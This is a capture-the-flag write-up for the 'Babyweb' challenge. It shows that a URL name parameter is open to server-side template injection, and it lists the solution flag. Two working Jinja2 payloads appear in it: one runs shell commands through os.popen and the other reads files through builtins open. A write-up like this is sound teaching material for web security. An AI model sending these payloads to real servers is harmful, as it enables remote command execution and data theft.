



# Babyweb

**Description**: Embrace the shadows of the URL's 'name' field to uncover the path to victory.

**Link**: [babyweb-ctf.kjsce.com](https://babyweb-ctf.kjsce.com)

## Solution

On opening the link we see the page.

<figure></figure>

There was a `/name` parameter through which we could do `Side Server Template Injection(SSTI)`.

<figure></figure>

Let's try reading some files using it. `{{cycler.__init__.__globals__.os.popen('ls').read()}}`

<figure></figure>

Now let's read the `flag.txt` file. `{{url_for.__globals__['__builtins__'].open('flag.txt').read()}}`

<figure></figure>

## Flag
```
KJSCE_CTF{t3mp1at3_inj3k1i0n_1s_k00l}
```